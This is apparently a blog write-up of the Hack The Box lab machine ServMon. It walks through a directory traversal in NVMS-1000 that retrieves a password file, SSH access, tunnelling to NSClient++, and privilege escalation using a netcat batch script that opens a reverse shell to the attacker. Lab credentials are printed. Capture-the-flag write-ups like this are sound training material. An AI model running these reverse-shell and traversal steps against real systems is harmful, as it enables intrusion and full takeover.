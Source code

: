 ```yaml
---
title:  "HackThebox - ServMon"
description: An approach to reversing.
date:   2020-05-23 21:03:36 +0530
tags: [boxes, windows]
categories: boxes
toc: true
toc_label: "Table of Contents"
toc_sticky: true
excerpt: "Write-up of the box ServMon from Hack The Box"
---
```

# Overview
This is an interesting box as it has gotten a lot of heat - mostly due to the steps required for root - and I can see why: The web interface might be slowish and buggy under load but also people can mess with each other - pushing the frustration. As this includes overwriting others' files I think this box teaches what I call *gentleman behaviour*. Try to not mess with other peoples stuff when working on the same box.
{: .text-justify}
# Recon
A quick `nmap` scan reveals
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5666/tcp open  nrpe
6699/tcp open  napster
8443/tcp open  https-alt
```
Logging into ftp anonymously we find two users `Nadine` and `Nathan` inside the `Users` folder. From Nadine's folder we get a `Confidential.txt` and a `Notes to do.txt` from Nathan:
```bash
$ cat Confidential.txt
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```
```bash
$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```
Not much to continue from. So we are done with ftp, since we have no creds for ssh we go over to the web page and see `NVMS-1000` running and a login prompt. Trying standard passwords does not work but
{: .text-justify}
```bash
$ searchsploit nvms
------------------------------------------------------- ----------------------------------------
 Exploit Title                                         |  Path
                                                       | (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
NVMS 1000 - Directory Traversal                        | exploits/hardware/webapps/47774.txt

$ cat /usr/share/exploitdb/exploits/hardware/webapps/47774.txt
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
```
reveals a relatively new `Directory Traversal` vulnerability and combining with the info from the note, we know that there's a `Passwords.txt` file in Nathans Desktop, likely to be `C:\Users\Nathan\Desktop\Passwords.txt` - that looks promising. So we run `sudo msfconsole` and search the exploit:
{: .text-justify}
```bash
msf5 > search nvms

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal


msf5 > use auxiliary/scanner/http/tvt_nvms_traversal
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > show options

Module options (auxiliary/scanner/http/tvt_nvms_traversal):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   DEPTH      13                yes       Depth for Path Traversal
   FILEPATH   /windows/win.ini  yes       The path to the file to read
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```
We need to set RHOSTS which is the IP of the box 10.10.10.184 and we also notice the FILEPATH `/windows/win.ini` which is the short form for `C:/windows/win.ini` therefore we 
{: .text-justify}
```bash
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
```
and run the exploit
```bash
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /root/.msf4/loot/20200417043745_default_10.10.10.184_nvms.traversal_115301.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We see the exploit has created a text file and looking into it we find creds:
```bash
$cat /root/.msf4/loot/20200417043745_default_10.10.10.184_nvms.traversal_115301.txt

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
Trying these a little bit we find that `L1k3B1gBut7s@W0rk` works for Nadine via ssh:
```bash
$ ssh nadine@10.10.10.184
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                    
nadine@SERVMON C:\Users\Nadine> dir Desktop          
 Volume in drive C has no label.                  
 Volume Serial Number is 728C-D22C                
                                                  
 Directory of C:\Users\Nadine\Desktop             
                                                  
08/04/2020  22:28    <DIR>          .             
08/04/2020  22:28    <DIR>          ..            
17/04/2020  08:31                34 user.txt
```
and we have completed user.
# Root part
For the root part we look into the NSClient mentioned in Nathans notes in `C:\Program Files\NSClient++`.
Looking into `nsclient.ini` we see plaintext creds and allowed hosts:
```bash
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```
So we can connect to the service from localhost only, therefore we need a ssh tunnel:
```bash
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```
and entering `http://localhost:8443` the NSClient++ asks for a password but the password from nsclient.ini will do the job.
This is where the heated discussion began:
Searching for a common exploit through metasploit revealed:
{: .text-justify}
```bash
$ searchsploit nsclient
------------------------------------------------------- ----------------------------------------
 Exploit Title                                         |  Path
                                                       | (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
NSClient++ 0.5.2.35 - Privilege Escalation             | exploits/windows/local/46802.txt
```
and checking the NSClient++ page we see that this is the latest version available. In the text file are seven steps outlined to compromise the system. It turns out that only a few of the steps need to be done and especially the last command will crash the NSClient for all users on the box. Furthermore the steps require to upload a script called `evil.bat` which simply calls netcat and establishes a connection to our attacking machine. Since the script has to contain the IP of each user it has the risk of being overwritten. Obviously crashing the server is not the intended way and one has to be careful not to overwrite others scripts.
{: .text-justify}
The *intended* way to load the script is through the API:
1. Write the following lines into `exploit.bat`:
```bash
@echo off
C:\Temp\nc.exe your_ip port -e cmd.exe
```
2. Upload nc.exe and your `exploit.bat` to C:\Temp via scp: `scp nc.exe nadine@10.10.10.184:"C:\Temp"` and `scp exploit.bat nadine@10.10.10.184:"C:\Temp"`.
3. Run `nc -lnvp port` with the port specified in the script.
4. Create an external script in the NSClient++ via "Settings" -> "external Scripts" -> "scripts" -> green box "add a simple script": `Alias: exploit; Script C:\Temp\exploit.bat`. Save and optionally check the nsclient.ini if your entry appears.
5. Access the api:

```bash
nadine@SERVMON C:\Program Files\NSClient++>curl -k -i -u admin https://localhost:8443/api/v1/mod
ules
nter host password for user 'admin':
HTTP/1.1 200
Content-Length: 2299
Set-cookie: token=yapnxrpMCARCr4zdGc81tBDKsMlaZTXC; path=/
Set-cookie: uid=admin; path=/

[{"description":"Module used to execute external scripts","id":"CheckExternalScripts","load_url"
:"https://localhost:8443/api/v1/modules/CheckExternalScripts/commands/load","loaded":true,"metad
ata":{"alias":"","plugin_id":"0"},"module_url":"https://localhost:8443/api/v1/modules/CheckExter
nalScripts/","name":"CheckExternalScripts","title":"CheckExternalScripts","unload_url":"https://
localhost:8443/api/v1/modules/CheckExternalScripts/commands/unload"}
```
It shows us that we can load and unload external scripts via the specified `_url`.
Doing `curl -k -i -u admin https://localhost:8443/api/v1/mod
ules/CheckExternalScripts/commands/unload` should result in  a `Success unload CheckExternalScripts` and `curl -k -i -u admin https://localhost:8443/api/v1/mod
ules/CheckExternalScripts/commands/load` in a `Success load CheckExternalScripts`respectively.

If we now enter `exploit` in the Console of the web interface we receive our reverse shell as Administrator:
```bash
$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.184] 50611
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

